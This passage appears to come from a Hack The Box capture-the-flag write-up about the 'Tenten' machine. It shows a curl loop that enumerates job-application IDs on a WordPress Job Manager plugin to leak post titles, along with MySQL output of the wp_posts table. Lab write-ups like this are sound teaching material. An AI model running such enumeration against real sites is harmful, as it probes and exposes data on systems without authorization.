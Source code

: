     |  6 | Job Application     | jobman_app_form | publish     | apply               | http://10.10.10.108/index.php/jobs/apply/                              |
    |  7 | Register            | jobman_register | publish     | register            | http://10.10.10.108/index.php/jobman_register/register/                |
    |  8 | Pen Tester          | jobman_job      | publish     | pen-tester          | http://10.10.10.108/index.php/jobs/pen-tester/                         |
    |  9 |                     | nav_menu_item   | publish     | 9                   | http://10.10.10.108/?p=9                                               |
    | 10 | Application         | jobman_app      | private     | application         | http://10.10.10.108/index.php/jobman_app/application/                  |
    | 11 | cube                | attachment      | private     | cube                | http://10.10.10.108/wp-content/uploads/2017/04/cube.png                |
    | 12 | Application         | jobman_app      | private     | application-2       | http://10.10.10.108/index.php/jobman_app/application-2/                |
    | 13 | HackerAccessGranted | attachment      | private     | hackeraccessgranted | http://10.10.10.108/wp-content/uploads/2017/04/HackerAccessGranted.jpg |
    +----+---------------------+-----------------+-------------+---------------------+------------------------------------------------------------------------+
    12 rows in set (0.00 sec)
    

All of the titles are what I was able to leak out through this vulnerability:

    
    
    ┌─[htb-0xdf☺htb-rvrl5lfpiv]─[~/tenten]
    └──╼ $for i in $(seq 1 25); do echo -n "$i: "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
    1: Job Application: Hello world!
    2: Job Application: Sample Page
    3: Job Application: Auto Draft
    4: Job Application
    5: Job Application: Jobs Listing
    6: Job Application: Job Application
    7: Job Application: Register
    8: Job Application: Pen Tester
    9: Job Application:
    10: Job Application: Application
    11: Job Application: cube
    12: Job Application: Application
    13: Job Application: HackerAccessGranted
    

It’s interesting here is how WordPress jams together all these different types
of “post”. Interesting the guid seems to show a url for the page, but the IP
is wrong (maybe that’s the IP the box was created on?). There are all
different types of post, like `post`, `page`, `nav_menu_item`, and then things
associated with `jobman`, and `attachment`. The guids have `urls` that mostly
work, though they have the wrong IP. I do see the guid for
“HackerAccessGranted” points to the location where I found the image.

None of these posts have any actual content:

    
    
    mysql> select post_content from wp_posts where id > 4;
    +-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | post_content                                                                                                                                                                                                                            |
    +-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
    | Hi! This page is used by your Job Manager plugin as a base. Feel free to change settings here, but please do not delete this page. Also note that any content you enter here will not show up when this page is displayed on your site. |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |
    |                                                                                                                                                                                                                                         |